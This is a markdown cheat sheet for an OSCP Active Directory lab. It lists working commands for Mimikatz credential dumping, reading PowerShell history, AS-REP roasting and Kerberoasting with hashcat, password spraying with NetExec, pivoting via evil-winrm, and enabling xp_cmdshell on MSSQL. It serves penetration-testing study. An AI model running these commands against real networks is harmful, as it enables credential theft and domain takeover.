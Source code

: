 # 🛡️ OSCP Active Directory Lab Guide

## 1. Escalate on MS01 (Always Dual-Homed)
- Check privileges; if `SeImpersonatePrivilege` is there, use one of [these](https://x7331.gitbook.io/boxes/tl-dr/active-directory/privileges/seimpersonateprivilege) to escalate to Local Admin 
```powershell
whoami /priv
```
- Look for custom binaries → download and run `strings` to extract creds, check for [binary](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#service-binary-hijacking)/[DLL](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#dll-hijacking) hijacking
## 2. Pillaging
- Dump credentials with Mimikatz:
```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "exit"
```
- Check PowerShell history:
```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Get-Content C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# Enumerate the path
(Get-PSReadlineOption).HistorySavePath
# List its contents
cat C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
- Enumerate domain users and build a wordlist
```bash
$ nxc smb 192.168.X.X -u <user> -p <pass> --users | awk '$1 == "SMB" && $5 != "[+]" && $5 != "-Username-" && $5 != "[*]" {print $5}' > domain_users
```
- Enumerate SMB shares
```bash
nxc smb 192.168.X.X -u <user> -p <pass> --shares
```
- Check for [AS-REP Roasting](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/asreproasting):
```bash
impacket-GetNPUsers oscp.exam/ -dc-ip 10.10.X.X -no-pass -usersfile domain_users
hashcat -m 18200 asreproast_users /usr/share/wordlists/rockyou -r /usr/share/hashcast/rules/best64.rule --force
```
- Check for [Kerberoasting](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/kerberoasting):
```bash
impacket-GetUserSPNs -request -dc-ip 10.10.X.X oscp.exam/<user>
hashcat -m 13100 kerberoast_users /usr/share/wordlist/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
- Password spray the domain to enumerate valid accounts and remote access:
```bash
nxc smb domain_ips -u domain_users -p passwords --continue-on-success | grep +
nxc winrm domain_ips -u domain_users -p passwords --continue-on-success | grep +
nxc rdp domain_ips -u domain_users -p passwords --continue-on-success | grep +
```
## 2. Pivot to MS02
- Use sprayed creds to check access via WinRM or RDP:
```bash
evil-winrm -u <user> -p <pass> -i <MS02>
xfreerdp /u:<user> /p:<pass> /v:<MS02> /smart-sizing
```
## 3. Enumerate MS02
- Check for `C:\windows.old` folder → [dump SAM and SYSTEM locally](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/local-sam-dump):
```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```
- Look for custom binaries → download and run `strings` to extract creds, check for [binary](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#service-binary-hijacking)/[DLL](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#dll-hijacking) hijacking
- Check local sockets:
```powershell
netstat -ano
```
- Check [PowerShell history](https://x7331.gitbook.io/boxes/tl-dr/infra/windows#files):
```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Get-Content C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# Enumerate the path
(Get-PSReadlineOption).HistorySavePath
# List its contents
cat C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
- if `sql_svc` is owned, interact via Impacket or NetExec:
```bash
# Impacket
mssqlclient.py <domain>/<user>@<host> -windows-auth
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';

# NXC
# Remote queries
nxc mssql <target> -u <user> -p <pass> --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
# System RCE via xp_cmdshell
nxc mssql <target> -u <user> -p <pass> --local-auth -x whoami
```
- Pass-spray all discovered creds
